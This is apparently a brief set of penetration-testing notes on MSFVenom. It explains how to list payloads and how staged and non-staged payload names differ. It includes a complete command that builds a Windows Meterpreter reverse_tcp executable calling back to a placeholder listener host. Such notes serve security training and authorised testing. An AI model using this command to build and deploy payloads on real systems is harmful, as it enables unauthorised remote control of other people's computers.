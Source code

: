 # MSFVenom

To see the available payloads: `msfvenom -l payloads`
- Filter by piping to grep
- [Cheat Sheet](https://infinitelogins.com/2020/01/25/msfvenom-reverse-shell-payload-cheatsheet/)

Build a payload with MSFVenom:

```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=[local ip] LPORT=1234 -f exe > payload.exe
```

A staged payload will follow this syntax: 

```
windows/x64/meterpreter/reverse_tcp
linux/x86/meterpreter/reverse_tcp
```

A non-staged payload will follow this syntax: 

```
windows/x64/meterpreter_reverse_tcp
linux/x86/meterpreter_reverse_tcp
```

